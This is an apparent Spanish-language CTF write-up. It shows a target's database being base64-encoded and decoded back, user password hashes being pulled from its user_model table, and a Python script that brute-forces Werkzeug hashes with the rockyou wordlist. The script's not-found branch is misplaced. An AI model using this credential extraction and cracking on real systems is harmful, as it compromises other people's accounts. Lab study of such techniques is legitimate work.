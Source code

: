 ```python
base64 -w0 database.db
```

![[Pasted image 20240712203948.png]]

`ssqlite3`
aquí debemos hacer el inverso para regresar los datos al formato `.db`  usando el siguiente comando  

```python
❯ base64 -d new-db.txt > database.db

❯ sqlite3 database.db
```

![[Pasted image 20240712204304.png]]

`vamos a seleccionar la table de user_model`
obtenemos los hash de los usuarios de la base de datos y ahora podemos intentar decodear
![[Pasted image 20240713002639.png]]

### script python
vamos a crear un script en python que sea capaz de analizar estos hashes ya que han sido creados con una librería especifica. para ello necesitamos instalar esta librería y asegurarnos que este corriendo la `versión 2.2.2` ya que las nuevas versiones no funciona 

```python
python3 -m pip install werkzeug==2.2.2 #Nota: esta es la version que necesitamos instalar ya que las versiones actualizadas no funcionan

--------------------------------------------------------------------------------------------------------------------------------------

#!/usr/bin/python3  
from werkzeug.security import check_password_hash  
  
  
hashes = open("NombreDelHash", "r")  
  
for hash in hashes:  
    hash = hash.strip()  
    user = hash.split(":")[0]  
    hash = hash.split(":")[1]  
  
    with open("rockyou.txt", "r", errors="ignore") as file:    
        for line in file:  
            password = line.strip()  
            if check_password_hash(hash, password):  
                print(f"Password found: {password}")  
                break  
else:  
    print("Password not found in the given wordlist.")

```
